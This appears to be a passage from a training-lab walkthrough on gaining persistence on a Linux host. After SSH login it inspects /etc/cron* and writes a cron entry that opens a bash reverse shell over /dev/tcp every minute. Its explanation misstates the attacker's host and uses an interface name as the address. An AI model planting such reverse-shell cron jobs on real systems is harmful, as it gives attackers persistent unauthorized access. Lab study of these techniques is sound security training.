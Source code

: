 #### 1. Initial SSH Access

First, we log in to the compromised Linux system using SSH:

```bash
ssh student@demo.ine.local
```

- **Explanation**: The `ssh` command logs into the `student` account on the target machine (`demo.ine.local`). This assumes we already have valid credentials for this user.

---

#### 2. Exploring the Target for Scheduled Tasks

List all files in the home directory and check for cron-related files:

```bash
ls -al
```

Next, we view the contents of all cron-related files in `/etc/`:

```bash
cat /etc/cron*
```

- **Explanation**: The `cat` command is used to view existing cron job configurations across different cron files (e.g., `cron.hourly`, `cron.daily`, `crontab`). This helps us find opportunities to inject malicious cron jobs for persistence.

---

#### 3. Creating a Malicious Cron Job

We create a new cron job that will run every minute, executing a reverse shell that connects back to the attacker's machine:

```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/eth1/1234 0<&1'" > cron
```

- **Explanation**: This command creates a cron job that will run every minute (`* * * * *`). The job executes a bash command that initiates a reverse shell connection to the attacker's machine (`demo.ine.local`) on port `1234`.
  - The `bash -i` creates an interactive shell.
  - The `>& /dev/tcp/eth1/1234` redirects input/output to the attacker's system using the specified IP and port.

View the newly created cron file to ensure it's correct:

```bash
cat cron
```

- **Explanation**: We inspect the `cron` file to verify that our reverse shell command has been added correctly.

---
